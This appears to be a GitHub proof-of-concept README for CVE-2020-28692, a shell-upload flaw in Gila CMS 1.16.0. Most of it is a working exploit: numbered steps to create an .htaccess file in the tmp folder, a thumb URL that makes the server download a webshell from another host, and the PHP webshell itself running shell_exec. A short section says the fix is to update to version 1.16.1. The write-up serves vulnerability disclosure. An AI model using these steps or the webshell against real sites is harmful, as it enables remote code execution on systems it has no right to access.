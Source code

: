 # Gila-CMS-1.16.0-shell-upload (CVE-2020-28692)

Author: jkana
----
1.Login as administrator or any users have logs permission

2.Access to **http://IP/admin/fm?f=tmp/** . For example:
```http://192.168.0.105:1234/gila16/admin/fm?f=tmp/```

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/1.JPG)

3.Click **+File** and create **.htaccess**:

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/2.JPG)

4.Use this URL for downloading shell to gila's tmp directory **http://IP/lzld/thumb?size=600&src=SHELL_URL** .For example:
```http://192.168.0.105:1234/gila16/lzld/thumb?size=600&src=http://192.168.0.105:1234/files/shell.php```

5.We can check shell name with **http://IP/admin/fm?f=tmp/**

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/3.JPG)

6.Access to webshell and got RCE!

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/4.JPG)

----
# How to fix

Update to **Gila CMS 1.16.1**
----
## shell.php
```
<?php
$output = shell_exec('ipconfig');
echo "<pre>$output</pre>";
?>
```
